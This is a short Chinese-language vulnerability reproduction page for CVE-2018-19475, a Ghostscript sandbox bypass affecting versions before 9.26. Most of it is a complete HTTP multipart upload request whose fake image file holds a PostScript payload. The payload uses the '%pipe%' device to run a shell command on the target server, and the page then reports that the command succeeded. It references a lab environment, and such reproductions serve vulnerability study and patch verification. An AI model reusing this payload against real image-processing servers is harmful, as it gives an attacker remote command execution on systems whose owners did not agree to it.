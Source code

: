 ```yaml
---
title: （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞
id: zhfly2953
---
```


# （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

./psi/zdevice2.c文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

## 二、漏洞影响

Ghostscript 9.26之前版本

## 三、复现过程

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO

Content-Disposition: form-data; name=“file_upload”; filename=“1.jpg”

content-Type=“image/png” `%!PS

0 1 300367 {} for

{save restore} stopped {} if

(%pipe%id > /tmp/success && cat /tmp/success) (w) file

------WebKitFormBoundaryukZmnyhO–` 
```

命令已成功执行：

![image](../img/fd94a9398844f965ba34d76bee6a54e7.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2018-19475/